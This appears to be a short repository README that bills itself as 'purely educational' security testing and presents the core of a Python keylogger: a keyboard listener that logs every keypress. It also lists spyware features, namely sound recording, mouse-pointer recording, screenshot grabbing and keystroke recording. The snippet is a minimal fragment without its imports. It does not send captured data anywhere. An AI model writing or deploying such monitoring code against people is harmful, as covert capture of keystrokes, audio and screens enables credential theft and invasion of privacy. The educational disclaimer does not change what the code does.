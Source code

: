 Purpose of this project is to test the security of computer systems. Purely Educational!

# Code that goes in educational1.py

```py
def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

- Sound Recorder
- Mouse pointer Recorder
- Screenshot Grabber
- Keystrokes Recorder